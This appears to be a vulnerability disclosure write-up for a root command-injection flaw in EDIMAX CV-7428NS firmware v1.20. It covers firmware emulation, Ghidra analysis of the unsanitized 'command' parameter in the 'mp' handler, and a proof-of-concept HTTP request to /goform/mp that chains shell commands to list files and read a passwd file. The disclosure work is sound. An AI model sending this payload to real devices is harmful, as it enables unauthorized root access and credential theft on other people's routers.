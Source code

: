 ### description:
A remote code execution (RCE) vulnerability was discovered in thefirmware version EDIMAX-cv-7428ns_v1.20. The vulnerability exists in the `mp` function, which processes the `command` parameter via unsanitized input passed to `system()`. This allows attackers to execute arbitrary commands with root privileges by injecting shell metacharacters.

### Firmware
**brand**: EDIMAX
**product**: EDIMAX-cv-7428ns
**version**: v1.20

The firmware can be downloaded from [EDIMAX - Download](https://www.edimax.com/edimax/download/download/data/edimax/global/download/product/home_legacy_products/home_legacy_wi-fi_bridges/cv-7428ns/) and emulated using FirmAE:
```bash
sudo ./run.sh -d EDIMAX ../sim_project/CV-7428NS_v1.20/CV-7428NS_v1.20.bin
```
Note: During emulation, there may be instances where the process appears to fail—that is, while the FirmAE Debugger interface is accessible, the router service may not start properly. In such cases, we can utilize the Debugger's socat to access the router's terminal. From there, we can manually run the firmware's webs file using GDB, which will allow the 80-port service to become available.

Emulation result:  
![./img/emulation2.png](./img/emulation2.png)
![[./img/emulation1.png]](./img/emulation1.png)

### analyze  
Using Ghidra, we identified the vulnerable function "mp" at file "webs":
![[./img/code_ana1.png]](./img/code_ana1.png)
![[./img/code_ana2.png]](./img/code_ana2.png)

Key findings:
1. The `command` parameter (pcVar3) is directly concatenated into `local_210` buffer.
2. `system()` executes the constructed command without sanitization.
3. Attempted semicolon filtering can be bypassed using alternative shell metacharacters.

Data flow analysis reveals:
- `websGetVar()` retrieves user-controlled `command` input 
- Command string is formatted into `/bin/rftest.sh [INPUT] > /tmp/rftest.out`
- No validation prevents command injection via `&`, `|`, `$()` etc.

Vulnerable code section:
![[./img/vulnerable_code.png]](./img/vulnerable_code.png)

### poc  
Successful exploitation using Burp Suite:
![[./img/poc_result.png]](./img/poc_result.png)

Verification steps:
1. Execute command injection:
```http
POST /goform/mp HTTP/1.1
Host: 192.168.9.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Cookie: language=0

command=hack%26%26echo%20HACK%26%26ls%20..%26%26cat%20../passwd
```
2. Observed response contains the content of file "../passwd" and commands are executed in Firmware.
